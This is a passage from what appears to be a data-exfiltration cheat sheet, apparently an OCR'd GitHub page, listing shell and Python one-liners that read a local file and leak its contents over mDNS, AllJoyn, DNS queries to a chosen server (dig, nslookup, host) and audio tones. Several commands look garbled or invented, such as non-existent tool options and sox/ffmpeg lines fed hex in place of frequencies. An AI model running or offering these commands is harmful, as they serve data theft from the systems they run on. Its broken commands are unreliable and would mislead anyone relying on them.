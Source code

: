 3. **Using `mdns-scan` on Linux to send data in mDNS queries:**


`echo -n "$(cat /path/to/local/file.txt)" | xargs -I {} mdns-scan --query "{}.$(cat /path/to/local/file.txt)"`


### AllJoyn

1. **Using `aj_send` tool to send data over AllJoyn:**


`echo -n "$(cat /path/to/local/file.txt)" | aj_send $(cat /path/to/local/file.txt)`

2. **Using Python with the `alljoyn` library to send data over AllJoyn:**


`python -c "from alljoyn import AllJoyn, InterfaceDescription; aj = AllJoyn(); service = aj.create_service('org.example.ExfiltrationService'); service.add_signal('sendData', 's'); iface = InterfaceDescription(aj, 'org.example.ExfiltrationInterface'); iface.add_signal('sendData', 's'); aj.register_interface(iface); service.setup()"`

3. **Using `alljoyn-daemon` to send data over AllJoyn:**


`echo -n "$(cat /path/to/local/file.txt)" | alljoyn-daemon --session sender $(cat /path/to/local/file.txt)`


### DNSQ

1. **Using `dig` to send data in DNS queries:**


`dig @"DNS_server_IP" "$(cat /path/to/local/file.txt).example.com"`

2. **Using `nslookup` to send data in DNS queries:**


`nslookup -q=txt "$(cat /path/to/local/file.txt).example.com" "DNS_server_IP"`

3. **Using `host` to send data in DNS queries:**


`host -t txt "$(cat /path/to/local/file.txt).example.com" "DNS_server_IP"`

### Audio - No listener

1. **Using `sox` to encode data into audio tones:**


`sox -n -r 44100 -b 16 output.wav synth 10 sin $(echo "$(cat /path/to/local/file.txt)" | xxd -p | sed 's/../& /g')`

2. **Using `ffmpeg` to encode data into audio tones:**


`ffmpeg -f lavfi -i "sine=frequency=$(echo "$(cat /path/to/local/file.txt)" | xxd -p | sed 's/../& /g')" -t 10 output.wav`

3. **Using `play` from `sox` to play the encoded audio:**


`play output.wav`
